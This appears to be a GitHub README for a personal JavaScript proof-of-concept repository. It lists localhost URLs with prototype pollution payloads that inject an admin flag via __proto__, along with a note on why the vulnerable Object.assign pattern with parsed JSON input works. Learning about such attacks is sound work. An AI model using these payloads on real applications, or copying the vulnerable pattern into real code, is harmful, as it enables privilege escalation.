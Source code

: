 # Javascript code

### All the POCs and garbage code goes here.

* **Prototype Pollution** - `routes/prototypepollution`

    Normal assignment - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`

    Object.assign - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`

    Spread operator - `http://localhost:3000/proto/3?value={"__proto__":{"admin":"true"}}`

    Notes:

    The item that you are assigning to `__proto__` must be an object. It doesn't seem to work if it is a string literal which kind of makes sense. Wasted a day figuring out this lol but it was good learning. Just so I dont forget this,

    `const obj = Object.assign({}, JSON.parse(req.query.value))` works but `const obj = Object.assign({}, req.query.value)` doesn't. It has got to be an object.